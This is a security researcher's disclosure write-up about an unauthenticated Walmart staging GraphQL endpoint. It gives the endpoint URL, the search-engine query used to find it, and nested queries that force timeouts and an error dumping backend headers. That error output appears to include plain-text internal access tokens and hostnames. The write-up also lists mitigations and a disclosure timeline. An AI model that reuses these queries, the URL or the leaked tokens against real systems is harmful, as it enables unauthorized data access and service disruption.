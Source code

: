 # Overview

GraphQL is an exciting technology that simplifies how developers load data from back-end services and thousands of organizations are realizing the simplicity and power GraphQL enables for new applications. If and when a security issue does occur, the simplicity and power of GraphQL helps attackers to gain control of significantly more confidential data far faster than ever before.

Walmart accidentally exposed a graphql endpoint from their staging environment to the public with no authentication, schema introspection enabled, and graphql playground enabled. This makes it trivial for an attacker to scrape the entire API surface area for issues.

A quick set of queries revealed that most of the information from this public graphql endpoint was information that would generally be publicly available which is a little less exciting. However, if you’re able to get the graphql gateway to produce an invalid request to an underlying system it dumps the entire request into the payload back to the requestor. This includes headers from the GraphQL Gateway to the backend microservice that handles the request. In Walmart’s case this included the names of the internal servers and services and the authorization and access tokens the GraphQL gateway was using to interact with those services.

Endpoint is here: https://developer.api.stg.walmart.com/api-proxy/service/Store-Services/Store-GraphQL-API/v1/graphql

# Locating this issue

This particular vulnerable server was found by searching google for a piece of text that only exists in GraphQL playgrounds.

Here's a screenshot of a server hosting the GraphQL Playground

![Playground](Playground.png)

More specifically, a simple google search for `"Hit the Play Button to get a response here"` revealed the exposed server.


# Note about GraphQL

The beauty of GraphQL is that you can easily bring in data related to an entity you are querying for. In this vulnerability we were able to write a query that the information about a store.

```
{
  storesBySearchTerm(searchTerm: "Monona", searchOptions: { maxResults: -1 }) {
    stores {
      displayName
      bulletinBoard {
        header
        messages {
          body
        }
      }
    }
  }
}

   
```

Once we confirmed we'd be able to run that query we were able to investigate the schema to explore additional query options:


```
    nearbyStores {
      
    }
```

It looks like we can find 25 nearby stores to the first store we queried. Then we can recursively call this

```
      nearbyStores {
        nearbyStores{
          displayName
        }
      }
```

Each additional nested NearbyStores result multiples our result size by 25. So in this case we'll get 625 results, add two more nested calls and you'll get 390625 results.

# Details

Running this query will first cause a timeout, running it again shortly after the timeout will cause a different error which will dump the request headers from the GraphQL Gateway's call to the underlying REST service. These headers include plain text auth tokens for the backend service.


Sample Query:

```
{
  storesBySearchTerm(searchTerm: "Monona", searchOptions: { maxResults: -1 }) {
    stores {
      displayName
      bulletinBoard {
        header
        messages {
          body
        }
      }
      nearbyStores {
        nearbyStores{
          displayName
        }
      }
    }
  }
}
}
```

Running this query several times causes the underlying service to timeout and then when the next request occurs it fails, dumping the full request with headers to the requester:

```
{
  "url": "http://store-front.stg-mt.store-finder.services.glb.prod.walmart.com:80/store-front/storefinder/stores?latitude=42.919756&longitude=-89.252756&nbrOfStores=11&distance=50&responseGroups=deptGroups%2CallServices%2Cevents&serviceTypes=ALL",
  "headers": {
    "access_token": "gsf51320fce430d45d2bdba0509908f775f",
    "client_id": "123",
    "language_code": "en",
    "wm_bu_id": "0",
    "wm_consumer.id": "fa0d07de-fb06-4790-bda2-73b283846c67",
    "wm_consumer.ip": "127.0.0.1",
    "wm_ifx.client_type": "INTERNAL",
    "wm_sec.auth_token": "ahhaCXP%^OST",
    "wm_svc.env": "prod",
    "wm_svc.name": "store-front",
    "wm_svc.version": "1.0.0",
    "wm_consumer.intimestamp": 1650386721185,
    "wm_qos.correlation_id": "123"
  }
}
```

# CWE-200: Exposure of Sensitive Information to an Unauthorized Actor

This is an example of not implementing authentication on a GraphQL endpoint.

The following actions would have prevented this issue from occuring: 
* If this GraphQL endpoint is not utilized by the user's browser to render content it should not be connected to the internet with a public IP but instead should only be accessible by necessary internal services
* GraphQL Authorization should be added at the gateway level
* Limit nested calls whenever possible.
* If there are underlying services involved, those services should validate the user's request token to ensure the user should see the required data
* Underlying services should not treat the graphql gateway as being in development mode and should use the same protections as production services
* Positive and Negative authorization-related integration and end to end tests would have caught the issue 
* Tools like https://github.com/zapier/apollo-server-integration-testing make it easier to automated integration tests that ensure the presence of an authorization token

# Disclosure

Apr 18th: Filed a responsible disclosure via Walmart’s website which ended up with Bugcrowd

Apr 19th: Walmart sends a message rejecting responsible disclosure as could not reproduce / false positive and closes ticket.

Apr 19th: I reached out to clarify and provide additional information. If Walmart is rejecting the report then I believe I am free to immediately disclose.

Apr 19th: Contact bugcrowd to see if anyone will be responding to my new comment on the closed ticket. Bugcrowd says it may be up to 2 weeks before I will get a response.

May 18th: Vendor is not accepting the issue as meeting criteria.

